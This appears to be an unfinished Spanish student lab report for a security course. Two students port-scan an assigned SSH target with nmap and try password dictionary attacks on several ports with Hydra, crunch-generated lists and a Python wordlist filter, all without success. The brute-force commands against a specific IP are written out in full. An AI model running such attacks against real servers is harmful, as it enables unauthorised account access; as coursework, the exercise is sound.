

# Práctica 4 - SSH multiverse

La práctica se realizó de forma individual debido a que cada integrante del equipo contaba con un usuario y contraseña diferente por lo que se dará la explicación de dos distintos procesos correspondientes a cada integrante.

## Procedimiento.

```Pedro Méndez Jose Manuel ```

### Escanear el objetivo

Primero realizaremos un escaneo de puertos para encontrar y recopilar información sobre los puertos están activos escuchando by SSH, apoyandonos de nmap ejecutando este comando:

```bash
nmap 44.199.201.139 -sV -Pn -sT
```

| 
|:----------------------:|
| 

* Podemos observar que el servidor tiene los puertos abiertos para SSH abiertos:
	* 222/tcp  open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2200/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2222/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)

* Con shodan obtenemos que esta abierto el puerto 2200 y obtuvimos esta información.

```bash
OpenSSH6.6.1p1 Debian 5

SSH-2.0-OpenSSH_6.6.1p1 Debian-5
Key type: ssh-rsa
Key: AAAAB3NzaC1yc2EAAAADAQABAAABgQC4Iwij+KzpsW0v4w+7uIK4JUNv2guRNymYobgYXT5I1a2F
s3LQHPqy1MPxdgcL2NJJuQAVJv7ei4L2d9BRzn1MK10+Sf1iAidrGuCOJa+iY1ktxrynoePj/WOL
C2nR7roninmLQeUH8nUM6wYvb9qFaiEVH0LDtmoM0KdAiqq/Mndvaa5EcwYfmQ/CAUtg2y4n6Zyw
QjNLTtMljO8uM2wF5KJ9ucREhatb2M4YvvtQr07eKnGXwBKI03GYZMNHRcdLm8DxmDog+Ba4Gt9g
dpl/xQYPWqg130Dd24XPI/XPTCD41alelCCSNmL/4X5M2MAdTyll4d7Uc39owV13HELhh3ByyPmp
mr/ve3CCu3an1dYfvdU90JAv3PZoVQn3qCGxXFQghJs9VOPiiIxoeXxvAJCjInNt2xn/Ui47Vbwl
Y81ZXTXCKub/QI7/e8dbUqO8t4FyjfVMmGW0b65uRoBpRWl5gyV9ZtGTQPM+yfBS40fyuJ5rDQt/
48glIcHVnNE=
Fingerprint: ed:77:90:77:07:7e:17:39:b6:77:98:60:d0:0c:ef:c1

Kex Algorithms:
	curve25519-sha256@libssh.org
	ecdh-sha2-nistp256
	ecdh-sha2-nistp384
	ecdh-sha2-nistp521
	diffie-hellman-group16-sha512
	diffie-hellman-group-exchange-sha256
	diffie-hellman-group14-sha256
	diffie-hellman-group-exchange-sha1
	diffie-hellman-group14-sha1
	diffie-hellman-group1-sha1

Server Host Key Algorithms:
	rsa-sha2-512
	rsa-sha2-256
	ssh-rsa

Encryption Algorithms:
	aes128-ctr
	aes192-ctr
	aes256-ctr
	aes128-cbc
	aes192-cbc
	aes256-cbc
	3des-cbc

MAC Algorithms:
	hmac-sha2-256
	hmac-sha2-512
	hmac-sha2-256-etm@openssh.com
	hmac-sha2-512-etm@openssh.com
	hmac-sha1
	hmac-md5
	hmac-sha1-96
	hmac-md5-96

Compression Algorithms:
	none
```

* Sin embargo intentando obtener más información usando nmap y ejecutando el comando:  
	- sT TCP connect scan
	
```bash
nmap -sV -Pn -sT -p -10000 44.199.201.139
```

* Obtuvimos  los siguiente:	
PORT     STATE SERVICE VERSION
	* 222/tcp  open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2200/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2202/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* **_2220/tcp open  netiq?_**.
	* 2222/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)


* Obtendremos más información realizando unas conecciones vía ssh:

	- ssh -p 222 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- olakhace1
			- esdiverti
			- JOSEMPM12
	- ssh -p 2222 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- JOSEMANUE
			- josemanue
			- joseyapas
	- ssh -p _2202_ 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- contraseñ
			- CONTRASEÑ
			- NOPASASTE
	- ssh -p _**2220**_ 315073120@44.199.201.139 
		- No nos permite hacer nada y ahora creo que perdí mi tiempo, porque se queda en el limbo.
	- ssh -p 2222 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- pasaste12
			- bandera12
			- BANDERASI

* Realizando otra ejecucion de nmap obtuvimos:
```bash
ntory@debian11:~/CyS/p04$ nmap -sV -Pn -sT -p -25000 44.199.201.139
Starting Nmap 7.80 ( https://nmap.org ) at 2023-03-20 00:01 CST
Stats: 0:27:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 57.51% done; ETC: 00:49 (0:20:14 remaining)
Stats: 0:27:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 57.52% done; ETC: 00:49 (0:20:14 remaining)
Stats: 0:30:06 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 62.82% done; ETC: 00:49 (0:17:48 remaining)
Stats: 0:43:13 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 90.06% done; ETC: 00:49 (0:04:46 remaining)
Stats: 0:50:24 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 00:52 (0:00:52 remaining)
Stats: 0:50:29 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 00:53 (0:00:54 remaining)
Nmap scan report for ec2-44-199-201-139.compute-1.amazonaws.com (44.199.201.139)
Host is up (0.087s latency).
Not shown: 24994 filtered ports
PORT      STATE SERVICE     VERSION
2200/tcp  open  tcpwrapped
2220/tcp  open  netiq?
2222/tcp  open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
22022/tcp open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
22220/tcp open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
22222/tcp open  easyengine?
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2220-TCP:V=7.80%I=7%D=3/20%Time=64180239%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,3,"b\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22222-TCP:V=7.80%I=7%D=3/20%Time=64180239%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,B,"9\*oT9`U!t\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3084.25 seconds
```

* Realizando otra ejecución de nmap obtenemos:
```bash
ntory@debian11:~/CyS/p04$ nmap -sV -Pn -sT -p -25000 44.199.201.139
Starting Nmap 7.80 ( https://nmap.org ) at 2023-03-21 10:32 CST
Nmap scan report for ec2-44-199-201-139.compute-1.amazonaws.com (44.199.201.139)
Host is up (0.084s latency).
Not shown: 24993 filtered ports
PORT      STATE SERVICE     VERSION
222/tcp   open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
2200/tcp  open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
2202/tcp  open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
2220/tcp  open  netiq?
2222/tcp  open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
22022/tcp open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
22222/tcp open  easyengine?
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2220-TCP:V=7.80%I=7%D=3/21%Time=6419EBC5%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,17,"nH\^K5P0>!6MJU>v_fKr26\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22222-TCP:V=7.80%I=7%D=3/21%Time=6419EBC5%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,1B,"22b=I}c\?\+\|7>Qj,l\(t\(B8OMhR\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4146.65 seconds
```

* Realizando otras varias ejecuciones de nmap obtuvimos(junte los puertos de varias ejecuciones):

```bash
ntory@debian11:~/CyS/p04$ nmap -sV -Pn -sT -p -25000 44.199.201.139
Starting Nmap 7.80 ( https://nmap.org ) at 2023-03-20 00:01 CST
Stats: 0:27:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 57.51% done; ETC: 00:49 (0:20:14 remaining)
Service scan Timing: About 66.67% done; ETC: 00:53 (0:00:54 remaining)
Nmap scan report for ec2-44-199-201-139.compute-1.amazonaws.com (44.199.201.139)
Host is up (0.087s latency).
Not shown: 24992 filtered ports
PORT      STATE SERVICE     VERSION
53/tcp 		open  domain
222/tcp  	open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
2200/tcp 	open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
2202/tcp 	open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
2220/tcp  	open  netiq?
2222/tcp  	open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
22022/tcp 	open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
22220/tcp 	open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
22222/tcp 	open  easyengine?
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2220-TCP:V=7.80%I=7%D=3/20%Time=64180239%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,3,"b\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22222-TCP:V=7.80%I=7%D=3/20%Time=64180239%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,B,"9\*oT9`U!t\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3084.25 seconds

```

> Este puerto a veces me salia con otra descripción: 2200/tcp  open  tcpwrapped

* El bueno?
	- 22220/tcp open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)

####  Uso del parámetro _-v_ para saber la diferencia entre los puertos.

* Ejecutando ssh con el párametro *_-v_* sobre uno de los puertos que nos permitían intentar realizar una conección rapido obtuvimos la siguiente información tras poder ingresar nuestra clave:

```bash
ntory@debian11:~$ ssh -v -p 2202 315073120@44.199.201.139 
OpenSSH_8.4p1 Debian-5+deb11u1, OpenSSL 1.1.1n  15 Mar 2022
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 44.199.201.139 [44.199.201.139] port 2202.
debug1: Connection established.
debug1: identity file /home/ntory/.ssh/id_rsa type -1
debug1: identity file /home/ntory/.ssh/id_rsa-cert type -1
debug1: identity file /home/ntory/.ssh/id_dsa type -1
debug1: identity file /home/ntory/.ssh/id_dsa-cert type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa-cert type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa_sk type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa_sk-cert type -1
debug1: identity file /home/ntory/.ssh/id_ed25519 type -1
debug1: identity file /home/ntory/.ssh/id_ed25519-cert type -1
debug1: identity file /home/ntory/.ssh/id_ed25519_sk type -1
debug1: identity file /home/ntory/.ssh/id_ed25519_sk-cert type -1
debug1: identity file /home/ntory/.ssh/id_xmss type -1
debug1: identity file /home/ntory/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u1
debug1: Remote protocol version 2.0, remote software version OpenSSH_6.6.1p1 Debian-5
debug1: match: OpenSSH_6.6.1p1 Debian-5 pat OpenSSH_6.6.1* compat 0x04000002
debug1: Authenticating to 44.199.201.139:2202 as '315073120'
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: curve25519-sha256@libssh.org
debug1: kex: host key algorithm: rsa-sha2-512
debug1: kex: server->client cipher: aes128-ctr MAC: hmac-sha2-256-etm@openssh.com compression: none
debug1: kex: client->server cipher: aes128-ctr MAC: hmac-sha2-256-etm@openssh.com compression: none
debug1: expecting SSH2_MSG_KEX_ECDH_REPLY
debug1: Server host key: ssh-rsa SHA256:f+L9DhB9m8fs7VoLhofLiCe55Kqe3Lf6vVPo+Ryaq8M
debug1: Host '[44.199.201.139]:2202' is known and matches the RSA host key.
debug1: Found key in /home/ntory/.ssh/known_hosts:4
debug1: rekey out after 4294967296 blocks
debug1: SSH2_MSG_NEWKEYS sent
debug1: expecting SSH2_MSG_NEWKEYS
debug1: SSH2_MSG_NEWKEYS received
debug1: rekey in after 4294967296 blocks
debug1: Will attempt key: /home/ntory/.ssh/id_rsa 
debug1: Will attempt key: /home/ntory/.ssh/id_dsa 
debug1: Will attempt key: /home/ntory/.ssh/id_ecdsa 
debug1: Will attempt key: /home/ntory/.ssh/id_ecdsa_sk 
debug1: Will attempt key: /home/ntory/.ssh/id_ed25519 
debug1: Will attempt key: /home/ntory/.ssh/id_ed25519_sk 
debug1: Will attempt key: /home/ntory/.ssh/id_xmss 
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521,rsa-sha2-512,rsa-sha2-256,ssh-rsa,ssh-dss>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: password,publickey
debug1: Next authentication method: publickey
debug1: Trying private key: /home/ntory/.ssh/id_rsa
debug1: Trying private key: /home/ntory/.ssh/id_dsa
debug1: Trying private key: /home/ntory/.ssh/id_ecdsa
debug1: Trying private key: /home/ntory/.ssh/id_ecdsa_sk
debug1: Trying private key: /home/ntory/.ssh/id_ed25519
debug1: Trying private key: /home/ntory/.ssh/id_ed25519_sk
debug1: Trying private key: /home/ntory/.ssh/id_xmss
debug1: Next authentication method: password
315073120@44.199.201.139's password: 
```

* Recordemos que tenemos los puertos activos que permiten peticiones porque el 22222 y el 2220 se mueren en el proceso:
	- 53/tcp 		open  domain
	- 222/tcp  	open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	- 2200/tcp 	open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	- 2202/tcp 	open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	- 2222/tcp  	open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	- 22022/tcp 	open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	- 22220/tcp 	open  ssh         OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)

* Utilizando ssh -v -p <puerto> 315073120@44.199.201.139  sobre el puerto 22022 necesitamos dar una confirmación de fingerprint. 
	- 

* Utilizando ssh -v -p 22220 315073120@44.199.201.139  obtenemos la misma información que el puerto 222, podemos notar que estos puertos no piden una confirmación de finger.
	- 2200, 2202, 22022,2222


* Ejecutando ssh con el párametro *_-v_* sobre uno de los puertos que nos permitían intentar realizar una conección rapido obtuvimos la siguiente información tras poder ingresar nuestra clave:

* Ejecutando ssh con el párametro *_-v_* sobre los puertos 2220 y 22222 que NO nos permitían intentar realizar una conección rapido obtuvimos la siguiente información tras poder ingresar nuestra clave:
	- La salida se encuentra en el archivo [result.txt](\files\result.txt) porque fue muy grande. Y no pude interpretar la salida del debug1. :sad: Solo descubrimos que estos puertos se tragan tu conección. 

* Por lo que ahora atacaremos los 6 puertos que permiten realizar una conección by ssh.

* Para realizar las listas de palabras con 9 caracteres filtre las wordlist encontradas en internet utilice este [colab](https://colab.research.google.com/drive/1hnuIa4-3IH76sHEHqztqiwj_ImMm-PUe?usp=sharing).

### Atacar al objetivo: 

Obtener mediante un ataque de diccionario la contraseña correspondiente a su  usuario (utilizando Hydra por ejemplo).

* Primero instalaremos Hydra en nuestra AttackBox con el siguiente comando:
```bash
sudo dnf install hydra -y 
```
#### Atacando varios puertos con los siguientes comandos no encontramos respuesta...

```bash
hydra -s 222 -l 315073120 -P /home/ntory/CyS/p04/palabras9car.txt 44.199.201.139 -t 4 -f ssh
hydra -s 2222 -l 315073120 -P /home/ntory/CyS/p04/palabras9car.txt
hydra -s 2222 -l 315073120 -P /home/ntory/CyS/p04/mas_palabras.txt 44.199.201.139 -f ssh
hydra -s 2202 -l 315073120 -P /home/ntory/CyS/p04/palabras9car.txt 44.199.201.139 -f ssh
hydra -s 222 -l 315073120 -P /home/ntory/CyS/p04/palabras9car.txt 44.199.201.139 -t 4 -f ssh
hydra -s 22220 -l 315073120 -P /home/ntory/CyS/p04/alpha-passwords.txt 44.199.201.139 -f ssh
hydra -s 22220 -l 315073120 -P /home/ntory/CyS/p04/200k-passwords.txt 44.199.201.139 -f ssh
```

alpha-passwords tiene 300k lineas :p 

O si configuras 44.199.201.139 como attackbox2
git
hydra -l usuario -p contraseñaAUsar attackbox2 ssh
44.199.201.139 

hydra -L archivo_de_usuario -p contraseñaAUsar attackbox2 ssh 

hydra -L 315073120 -P palabras_9car.txt: 44.199.201.139  ssh 

###  Crear evidencia de haber entrado al sistema

La parte más sencilla, basta que ejecuten $ touch $NumeroDeCuenta para dejar registro que estuvieron ahí.

### Post-explotación.
```bash
PLANTILLA
```
------
## Procedimiento.

```Azpeitia García Karyme Ivette```

### Escanear el objetivo
 
Se realizó un escaneo de puertos con el objetivo de encontrar aquellos que se encuentran activos escuchando by SSH, para esto se uso ```nmap```


| 
|:----------------------:|
| Resultado al usar `nmap 44.199.201.139 -sV -Pn -sT` 

Encontrando los siguientes puertos activos y aceptables para nuestro objetivo:

``` bash
PORT     STATE SERVICE VERSION
	* 222/tcp  open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2200/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2222/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
```

### Atacar el objetivo:

Ahora que sabemos los puertos disponibles procedemos a realizar un ataque de diccionario, para esto necesitamos dos herramientas.

- Hydra 

Necesitamos un sofware que nos permita ejecutar ciberataques de fuerza bruta en cuentas de servicios, para poder intalarlo utilizamos lo siguiente: 

``` bash
brew install hydra
```
 
- WordList 

Con el sofware ya instalado procedemos a buscar wordlist publicas para realizar el ataque.

Las primeras wordList que se usaron fueron las que nos proporciona Kali Linux.

``` bash
root@kali:~# ls -lh /usr/share/wordlists/
total 51M
lrwxrwxrwx 1 root root  25 Jan  3 13:59 dirb -> /usr/share/dirb/wordlists
lrwxrwxrwx 1 root root  30 Jan  3 13:59 dirbuster -> /usr/share/dirbuster/wordlists
lrwxrwxrwx 1 root root  35 Jan  3 13:59 dnsmap.txt -> /usr/share/dnsmap/wordlist_TLAs.txt
lrwxrwxrwx 1 root root  41 Jan  3 13:59 fasttrack.txt -> /usr/share/set/src/fasttrack/wordlist.txt
lrwxrwxrwx 1 root root  45 Jan  3 13:59 fern-wifi -> /usr/share/fern-wifi-cracker/extras/wordlists
lrwxrwxrwx 1 root root  46 Jan  3 13:59 metasploit -> /usr/share/metasploit-framework/data/wordlists
lrwxrwxrwx 1 root root  41 Jan  3 13:59 nmap.lst -> /usr/share/nmap/nselib/data/passwords.lst
-rw-r--r-- 1 root root 51M Mar  3  2013 rockyou.txt.gz
lrwxrwxrwx 1 root root  34 Jan  3 13:59 sqlmap.txt -> /usr/share/sqlmap/txt/wordlist.txt
lrwxrwxrwx 1 root root  25 Jan  3 13:59 wfuzz -> /usr/share/wfuzz/wordlist
root@kali:~#
root@kali:~# gunzip /usr/share/wordlists/rockyou.txt.gz
root@kali:~#
root@kali:~# wc -l /usr/share/wordlists/rockyou.txt; ls -lah /usr/share/wordlists/rockyou.txt
14344392 /usr/share/wordlists/rockyou.txt
-rw-r--r-- 1 root root 134M Mar  3  2013 /usr/share/wordlists/rockyou.txt
root@kali:~#
```

#### Primer intento de ataque 

Para nuestro primer ataque se uso lo siguiente

``` bash
hydra -l 317340385 -P /Users/kary_agarcia/Downloads/wordlists -f  -s 222 44.199.201.139 ssh 

hydra -l 317340385 -P /Users/kary_agarcia/Downloads/wordlists -f  -s 2200 44.199.201.139 ssh 

hydra -l 317340385 -P /Users/kary_agarcia/Downloads/wordlists -f  -s 2222 44.199.201.139 ssh 
```

Realizando un total de *34,768* intentos y sin éxito.

### Segundo intento 

Se buscaron nuevas wordList en los siguientes sitios:

- [SecList-Github](https://github.com/danielmiessler/SecLists)
- [Weakpass](https://weakpass.com/download)
- [CrackStation](https://crackstation.net)
- [Pwdb-Public] (https://github.com/ignis-sec/Pwdb-Public)


Se realiza nuevamente los ataques sin tener éxito. 

### Tercer intento

Debido a las fallas en los ataques anteriores decidimos hacer un nuevo **escaneo de puertos** usando nuevamente  `nmap 44.199.201.139 -sV -Pn -sT`

``` bash
PORT     STATE SERVICE VERSION
	* 222/tcp  open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2200/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2202/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2222/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2220 -----
	* 22022/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 22222 -----
```

Probando nuevamente las wordList en los nuevos puertos, seguimos sin tener éxito.

### Cuarto intento 

Por lo anterior decidimos usar la herramienta de `crunch` para generar nuestra propia wordList, ya que se recibió un correo del ayudante "Iván Galindo" comentando que la contraseña que se me fue asignada era de longitud 10  y con al menos 5 números.


``` bash
 crunch 10 10 0123456789abcdefghijklmnopqrstuvwxyz -o /Users/kary_agarcia/Documents/3/START -c 50000 
```

Sin embargo el número de archivos fue muy grande por lo que solo se pudo evaluar la mitad de las combinaciones posibles, sin tener éxito.

### Quinto intento 

Procedemos a programar en `python` una herramienta que nos permita filtrar las wordList (mencionadas anteriormente) que cumplan con las siguientes caracteristicas:

- Tener longitud 10
- Cada palabra debe tener al menos 5 números.

Se uso el siguiente código:

``` python
# Abrir arhivo de wordList
with open('archivoWordList.txt', 'r') as input_file:

    # Abre el archivo de salida 
    with open('/Users/kary_agarcia/Documents/CyS/out.txt', 'w') as output_file:

        # Ciclo en cada línea en el archivo de entrada
        for line in input_file:

            # Tomar palabras individuales
            words = line.split()

            # Ciclo sobre cada palabra en la línea
            for word in words:

                # Se checa si la palabra es de longitud 10
                if len(word) == 10:

                    # Contador de números en la palabra
                    num_digits = sum(1 for c in word if c.isdigit())

                    # Verifica si se tienen al menos 5 números
                    if num_digits >= 5:

                        # Se escribe la palabra en el archivo de salida, 
						# si cumple lo anterior
                        output_file.write(word + '\n')

``` 

seguimos intentando, ahora usando la WordList generada con el código anterior.

------
📢⌨️ with ❤️ by [Jose-MPM](https://github.com/Jose-MPM) 😊⌨️ and [Kary-GOD](https://github.com/Kary-AG) 😊⌨️🎁


Encontrando los siguientes puertos activos y aceptables para nuestro objetivo:


 hydra -s 2222 -l 315073120 -P /home/ntory/CyS/p04/mas_palabras.txt 44.199.201.139 -f ssh
